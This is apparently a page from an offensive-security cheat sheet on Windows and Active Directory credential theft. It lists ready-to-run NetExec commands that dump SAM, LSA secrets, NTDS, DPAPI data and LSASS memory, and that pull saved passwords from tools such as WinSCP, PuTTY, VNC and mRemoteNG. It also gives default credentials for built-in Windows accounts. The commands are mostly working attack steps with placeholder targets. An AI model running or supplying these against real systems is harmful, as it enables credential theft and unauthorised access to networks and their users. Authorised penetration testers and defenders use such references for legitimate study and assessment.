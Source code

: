 Some info about your user

```powershell
net user /dom
net user /domain
```

### Looting Credentials

```ps1
nxc smb 10.10.10.10 -u username -p password -d domain --lsa
nxc smb 10.10.10.10 -u username -p password -d domain --sam
nxc smb 10.10.10.10 -u username -p password -d domain --dpapi nosystem
nxc smb 10.10.10.10 -u username -p password -d domain --dpapi cookies
nxc smb 10.10.10.10 -u username -p password -d domain --dpapi
nxc smb 10.10.10.10 -u username -p password -d domain --sccm
nxc smb 10.10.10.10 -u username -p password -d domain --ntds
nxc smb 10.10.10.10 -u username -p password -d domain -M lsassy
nxc smb 10.10.10.10 -u username -p password -d domain -M nanodump
nxc smb 10.10.10.10 -u username -p password -d domain -M veeam
nxc smb 10.10.10.10 -u username -p password -d domain -M winscp
nxc smb 10.10.10.10 -u username -p password -d domain -M putty
nxc smb 10.10.10.10 -u username -p password -d domain -M vnc
nxc smb 10.10.10.10 -u username -p password -d domain -M mremoteng
nxc smb 10.10.10.10 -u username -p password -d domain -M rdcman
```

### Guest Credential

By default every Windows machine comes with a Guest account, its default password is empty.

```powershell
Username: Guest
Password: [EMPTY]
NT Hash: 31d6cfe0d16ae931b73c59d7e0c089c0
```

### Retail Credential

Retail Credential [@m8urnett on Twitter](https://twitter.com/m8urnett/status/1003835660380172289)

when you run Windows in retail demo mode, it creates a user named Darrin DeYoung and an admin RetailAdmin

```powershell
Username: RetailAdmin
Password: trs10
```

### Sandbox Credential

WDAGUtilityAccount - [@never_released on Twitter](https://twitter.com/never_released/status/1081569133844676608)

Starting with Windows 10 version 1709 (Fall Creators Update), it is part of Windows Defender Application Guard
